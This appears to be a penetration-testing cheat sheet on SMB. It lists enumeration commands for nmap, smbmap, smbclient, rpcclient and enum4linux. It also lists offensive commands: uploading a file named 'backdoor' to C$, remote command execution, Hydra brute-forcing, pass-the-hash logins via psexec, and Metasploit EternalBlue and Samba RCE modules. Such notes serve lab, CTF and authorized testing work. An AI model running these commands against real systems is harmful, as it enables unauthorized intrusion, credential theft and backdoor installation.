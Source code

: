 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# 139,445 -> SMB

## Nmap Scripts

The example command for enumerating _<mark style="color:green;">Server Message Block</mark>_ (SMB) with Nmap is here.

```bash
# version/dialect
sudo nmap -p445 --script=smb-protocols $IP

# netbios of SMB
sudo nmap -p445 --script=smb-os-discovery $IP

# security mode
sudo nmap -p445 --script=smb-security-mode $IP

# smb shares
sudo nmap -p445 --script=smb-enum-shares $IP

# Check EternalBlue vulnerability
sudo nmap -p445 --script=smb-vuln-ms17-010 $IP

# Enum login user session
sudo nmap -p445 --script=smb-enum-sessions $IP

# Enum login user session with AUTHENTICATION
sudo nmap -p445 --script=smb-enum-sessions --script-args smbusername=administrator,smbpassword=password123 $IP

# Enum user with AUTHENTICATION
sudo nmap -p445 --script=smb-enum-users --script-args smbusername=administrator,smbpassword=password123 $IP

# Enum groups with AUTHENTICATION
sudo nmap -p445 --script=smb-enum-groups --script-args smbusername=administrator,smbpassword=password123 $IP

# Enum SMB shares with AUTHENTICATION
sudo nmap -p445 --script=smb-enum-shares --script-args smbusername=administrator,smbpassword=password123 $IP
```

## Smbmap

is a command line utility made from scripting language (python). Here are some examples of commands for _<mark style="color:green;">enumerate/interact/connect</mark>_ into SMB. It is also _often used for enumerating permissions on shares_.

```bash
# Enum with NULL sessions / checking shares permissions
smbmap -u guest -p "" -d . -H $IP

# Enum with AUTHENTICATION / checking shares permissions
smbmap -u "administrator" -p "password123" -H $IP

# List all shares with AUTHENTICATION
smbmap -u "administrator" -p "password123" -H $IP -L

# List all items in shares with AUTHENTICATION
smbmap -u "administrator" -p "password123" -H $IP -r 'C$'

# Execute command with AUTHENTICATION
smbmap -u "administrator" -p "password123" -H $IP -x 'ipconfig'

# Upload file with AUTHENTICATION
smbmap -u "administrator" -p "password123" -H $IP --upload '/root/backdoor' 'C$\backdoor'

# Download file with AUTHENTICATION
smbmap -u "administrator" -p "password123" -H $IP --download 'C$\flag.txt'
```

## Smbclient

is a command line utility that came with Linux by default. Here are some examples of commands for listing shares.

```bash
# List all shares
smbclient -L $IP -N

# Connect to shares
smbclient //$IP/<share> -N

# List all shares with AUTHENTICATION
smbclient -L \\\\$IP\\ -U administrator

# Connect to shares with AUTHENTICATION
smbclient \\\\$IP\\<share> -U administrator
```

## CrackMapExec

is a powerful tool dubbed as _<mark style="color:green;">swiss army knife</mark>_ for pentesting Windows/Active Directory environments.

```bash
# Get Windows version
crackmapexec smb $IP

# Listing shares/permissions
crackmapexec smb $IP --shares -u "" -p ""

# Enum user for ASREPRoast attack
crackmapexec smb $IP -u /worlists/users.txt -p "" -k
```

## Rpcclient

is a command line tool initially developed to test _<mark style="color:green;">MS-RPC</mark>_ functionality in Samba itself.

```bash
rpcclient -U "" -N $IP                 # null sessions
rpcclient -U admin%passwd123 $IP       # auth sessions
    > srvinfo                   # enum os version
    > enumdomusers              # enum all users
    > lookupnames admin         # enum user 
    > enumdomgroups             # enum groups
    > netshareenumall           # listing all shares
    > netsharegetinfo <share>   # more info about the share    
```

## Enum4Linux

is a command line tool that is installed by default in Kali Linux. It is used for enumerating information from Windows and Samba systems.

```bash
# Enum all things
enum4linux -a $IP

# Enum os information
enum4linux -o $IP

# Enum users
enum4linux -U $IP

# Enum shares 
enum4linux -S $IP

# Enum groups
enum4linux -G $IP

# Cheking the printer presents
enum4linux -i $IP

# Enum all things with AUTHENTICATION
enum4linux -a -u "administrator" -p "password123" $IP

# Enum users SID with AUTHENTICATION
enum4linux -r -u "administrator" -p "password123" $IP
```

## Nmblookup

is designed to make use of queries for the _<mark style="color:green;">NetBIOS</mark>_ names and then map them to their subsequent IP address in a network. All queries are done over _<mark style="color:green;">UDP</mark>_.

```bash
# Initial connection
nmblookup -A $IP

# For unique names: (code number)
00: Workstation Service (workstation name)
03: Windows Messenger service
06: Remote Access Service
20: File Service (also called Host Record)
21: Remote Access Service client
1B: Domain Master Browser – Primary Domain Controller for a domain
1D: Master Browser

# For group names: (code number)
00: Workstation Service (workgroup/domain name)
1C: Domain Controllers for a domain
1E: Browser Service Elections
```

## Hydra

is a brute force tool that is installed in Kali Linux by default. It can brute force the password/user's file list in several protocols.

```bash
hydra -l "admin" -P /wordlists/passwords.txt $IP smb
```

## Impacket-PsExec.py & PsExec.exe

is a lightweight telnet replacement developed by `Microsoft` that _<mark style="color:green;">allows to execute processes</mark>_ on remote Windows systems using any user's credentials. _<mark style="color:green;">Psexec authentication is performed via SMB</mark>_.

```bash
# Login with AUTHENTICATION (prompt password)
impacket-psexec.py Administrator@$IP

# Login with HASH
impacket-psexec.py Administrator@$IP -hashes <hash>
impacket-psexec.py example.local/Administrator@$IP -hashes <hash>
```

## MSFconsole

is a framework that holds many exploits, backdoors, scanners, etc. This is also known as _<mark style="color:green;">Metasploit</mark>_, by default, it is installed on Kali Linux.

```bash
auxiliary/scanner/smb/smb_version
auxiliary/scanner/smb/smb2
auxiliary/scanner/smb/smb_enumusers
auxiliary/scanner/smb/smb_enumshares
auxiliary/scanner/smb/smb_login
auxiliary/scanner/smb/pipe_auditor
exploit/windows/smb/psexec

# Scan the target for vulnerability
auxiliary/scanner/smb/smb_ms17_010

# Exploit the eternalblue
exploit/windows/smb/smb_ms17_010_eternalblue

# Exploiting samba v3.5.0 (RCE)
exploit/linux/samba/is_known_pipename
```
